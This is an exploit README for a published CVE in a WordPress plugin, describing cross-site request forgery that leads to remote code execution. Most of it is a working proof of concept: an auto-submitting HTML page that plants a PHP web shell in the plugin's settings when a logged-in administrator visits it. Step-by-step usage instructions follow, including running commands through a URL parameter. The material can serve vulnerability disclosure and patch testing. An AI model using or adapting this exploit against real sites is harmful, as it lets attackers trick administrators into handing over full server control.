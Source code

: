 
# 🚨 CVE-2025-39601 - CSRF to RCE in WordPress Custom CSS, JS & PHP plugin <= 2.4.1

## 🧠 Description

A **Cross-Site Request Forgery (CSRF)** vulnerability in the **WPFactory Custom CSS, JS & PHP** plugin allows for **Remote Code Execution (RCE)** by injecting malicious PHP code via unauthorized POST requests.  
This affects all versions **up to and including 2.4.1**.

- **CVE ID:** CVE-2025-39601  
- **Published:** 2025-04-16  
- **Updated:** 2025-04-16  
- **Severity:** 🔥 9.6 (CRITICAL)  
- **CWE:** CWE-352 - Cross-Site Request Forgery  
- **CVSS Vector:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H`

---

## 🖼️ Visual Proof

Below is a screenshot showing the result of a successful exploitation, demonstrating how remote code can be executed via the URL parameter:

![Nxploited](https://github.com/Nxploited/CVE-2025-39601/blob/main/img.png)

---
![Nxploited](https://github.com/Nxploited/CVE-2025-39601/blob/main/IMG2.png)

---

## 💥 Proof of Concept (PoC)

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>WordPress Custom CSS, JS & PHP plugin <= 2.4.1 - CSRF to RCE vulnerability</title>
</head>
<body onload="document.forms[0].submit()">
    <h1>CSRF PoC - WordPress Custom CSS, JS & PHP plugin <= 2.4.1</h1>
    <p>By : Nxploited | Khaled Alenazi</p>
    <form action="http://192.168.100.74:888/wordpress4/wp-admin/tools.php?page=alg-custom-php" method="POST">
        <input type="hidden" name="alg_custom_css_php_enabled" value="1">
        <input type="hidden" name="alg_custom_css_php_execute" value="plugins_loaded">
        <input type="hidden" name="alg_custom_css_php" value="<?php system($_GET['cmd']); ?>">
        <input type="hidden" name="alg_ccjp_submit" value="php">
        <noscript><input type="submit" value="Submit"></noscript>
    </form>
</body>
</html>
```

---

## 🧪 Usage

1. Host the above HTML file on any external server or local environment.
2. While an **admin user is logged in**, visit the hosted HTML file in their browser.
3. This will silently submit the form and inject PHP code into the plugin’s settings.
4. The code is then executed automatically on every page load via the `plugins_loaded` hook.
5. Example execution:
   ```
   http://target-site.com/?cmd=whoami
   ```

---

## ⚠️ Disclaimer

This PoC is for **educational purposes only**.  
The author is **not responsible for any misuse or damage** caused by improper application of this information.  
Always test in controlled environments and with permission.

---

*By: Nxploited | Khaled Alenazi*
